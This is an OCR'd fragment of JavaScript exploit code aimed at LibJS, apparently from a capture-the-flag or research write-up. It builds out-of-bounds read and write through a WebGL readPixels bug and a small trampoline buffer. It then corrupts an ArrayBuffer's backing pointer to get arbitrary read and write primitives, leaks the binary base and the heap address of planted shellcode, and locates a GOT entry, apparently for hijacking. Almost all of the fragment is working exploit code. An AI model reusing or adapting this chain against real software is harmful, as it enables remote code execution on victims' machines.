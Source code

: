 ```JavaScript

    gl.readPixels(0, 0, pw, ph, gl.RGBA, gl.UNSIGNED_BYTE, dest);
  }

  // Write src to victim ignoring its size
  function oob_write(victim, src)
  {
    oob(src, victim, src.length);
  }

  // Read dest from victim ignoring its size
  function oob_read(victim, dest)
  {
    oob(victim, dest, dest.length);
  }

  // Buffer to store data for readig/writing
  let buffer     = new Uint8Array(0xa8);
  // trampoline buffer we will use for OOB access
  // NOTE: It is small to force LibJS to use some
  //       "Objects" storage for it instead of normal heap.
  //       With small size sensitive data of victim_ab will
  //       be stored right after the trampoline's ArrayBuffer.
  let trampoline = new Uint8Array(0x20).fill(0x77);
  // ArrayBuffer we will corrupt
  let victim_ab  = new ArrayBuffer(0x300);
  let victim     = new Uint8Array(victim_ab);
  // We use victim's ArrayBuffer to save shellcode since we'll leak its address later
  victim.set(shellcode_bytes, 0x00);

  // 8-byte arbitrary read primitive based on writing arbitrary address in place of victim's pointer
  function readq(address)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    return unpack(victim.slice(0x00, 0x08));
  }

  // 8-byte arbitrary write primitive similar to read
  function writeq(address, value)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    victim.set(pack(value), 0x00);
  }

  // Just one OOB read to leak addresses
  oob_read(trampoline, buffer);

  // Leak of binary base
  const binary        = unpack(buffer.slice(ab_vtable_o, ab_vtable_o+0x08)) - binary_leak_o;
  loghex(binary);
  // Leak heap address of shellcode
  const victim_ab_buf = unpack(buffer.slice(victim_pointer_o, victim_pointer_o+0x08));
  loghex(victim_ab_buf);


  // Address of read GOT entry
  const read_got = binary + read_got_o;
  loghex(read_got);
```